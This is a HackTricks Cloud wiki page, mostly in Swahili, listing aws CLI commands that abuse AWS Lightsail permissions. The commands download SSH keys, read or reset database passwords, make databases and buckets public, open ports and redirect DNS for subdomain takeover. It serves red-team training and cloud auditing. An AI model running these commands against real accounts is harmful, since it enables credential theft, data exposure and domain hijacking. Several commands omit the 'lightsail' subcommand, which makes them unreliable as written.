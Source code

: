 # AWS - Lightsail Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lightsail

Kwa maelezo zaidi kuhusu Lightsail angalia:

{% content-ref url="../aws-services/aws-lightsail-enum.md" %}
[aws-lightsail-enum.md](../aws-services/aws-lightsail-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Ni muhimu kutambua kwamba Lightsail **haitumii majukumu ya IAM yanayomilikiwa na mtumiaji** bali kwa akaunti inayosimamiwa na AWS, hivyo huwezi kutumia huduma hii kwa privesc. Hata hivyo, **data nyeti** kama vile msimbo, funguo za API na taarifa za database zinaweza kupatikana katika huduma hii.
{% endhint %}

### `lightsail:DownloadDefaultKeyPair`

Ruhusa hii itakuruhusu kupata funguo za SSH za kufikia mifano:
```
aws lightsail download-default-key-pair
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:GetInstanceAccessDetails`

Ruhusa hii itakuruhusu kuunda funguo za SSH ili kufikia mifano:
```bash
aws lightsail get-instance-access-details --instance-name <instance_name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya mifano.

### `lightsail:CreateBucketAccessKey`

Ruhusa hii itakuruhusu kupata ufunguo wa kufikia ndoo:
```bash
aws lightsail create-bucket-access-key --bucket-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya bucket.

### `lightsail:GetRelationalDatabaseMasterUserPassword`

Ruhusa hii itakuruhusu kupata akreditif za kufikia database:
```bash
aws lightsail get-relational-database-master-user-password --relational-database-name <name>
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### `lightsail:UpdateRelationalDatabase`

Ruhusa hii itakuruhusu kubadilisha nenosiri la kufikia hifadhidata: 

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --master-user-password <strong_new_password>
```
{% endcode %}

Ikiwa database si ya umma, unaweza pia kuifanya kuwa ya umma kwa kutumia ruhusa hizi na

{% code overflow="wrap" %}
```bash
aws lightsail update-relational-database --relational-database-name <name> --publicly-accessible
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti ndani ya hifadhidata.

### `lightsail:OpenInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao.
```bash
aws lightsail open-instance-public-ports \
--instance-name MEAN-2 \
--port-info fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:PutInstancePublicPorts`

Ruhusa hii inaruhusu kufungua bandari kwa Mtandao. Kumbuka kwamba wito utafungia bandari yoyote iliyofunguliwa ambayo haijatajwa ndani yake.
```bash
aws lightsail put-instance-public-ports \
--instance-name MEAN-2 \
--port-infos fromPort=22,protocol=TCP,toPort=22
```
**Madhara Yanayoweza Kutokea:** Upatikanaji wa bandari nyeti.

### `lightsail:SetResourceAccessForBucket`

Ruhusa hii inaruhusu kutoa upatikanaji wa mfano kwa ndoo bila hati zozote za ziada.

{% code overflow="wrap" %}
```bash
aws set-resource-access-for-bucket \
--resource-name <instance-name> \
--bucket-name <bucket-name> \
--access allow
```
{% endcode %}

**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezo kwa mabakuli yenye taarifa nyeti.

### `lightsail:UpdateBucket`

Kwa ruhusa hii, mshambuliaji anaweza kutoa ufikiaji wa kusoma kwa akaunti yake ya AWS juu ya mabakuli au hata kufanya mabakuli kuwa ya umma kwa kila mtu:
```bash
# Grant read access to exterenal account
aws update-bucket --bucket-name <value> --readonly-access-accounts <external_account>

# Grant read to the public
aws update-bucket --bucket-name <value> --access-rules getObject=public,allowPublicOverrides=true

# Bucket private but single objects can be public
aws update-bucket --bucket-name <value> --access-rules getObject=private,allowPublicOverrides=true
```
**Madhara Yanayoweza Kutokea:** Upatikanaji mpya wa uwezo wa mifuko yenye taarifa nyeti.

### `lightsail:UpdateContainerService`

Kwa ruhusa hii, mshambuliaji anaweza kutoa ufikiaji wa ECR za kibinafsi kutoka kwa huduma za kontena.
```bash
aws update-container-service \
--service-name <name> \
--private-registry-access ecrImagePullerRole={isActive=boolean}
```
**Madhara Yanayoweza Kutokea:** Pata taarifa nyeti kutoka ECR ya faragha

### `lightsail:CreateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (uchukuaji wa subdomain), au kuunda rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwenye domain, au hata kuweka domain kuu kwenye anwani yake ya IP.
```bash
aws lightsail create-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa kikoa

### `lightsail:UpdateDomainEntry`

Mshambuliaji mwenye ruhusa hii anaweza kuunda subdomain na kuielekeza kwenye anwani yake ya IP (kuchukua subdomain), au kuunda rekodi ya SPF inayomruhusu kudanganya barua pepe kutoka kwa kikoa, au hata kuweka kikoa kikuu kwenye anwani yake ya IP.
```bash
aws lightsail update-domain-entry \
--domain-name example.com \
--domain-entry name=dev.example.com,type=A,target=192.0.2.0
```
**Madhara Yanayoweza Kutokea:** Kuchukua udhibiti wa kikoa

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
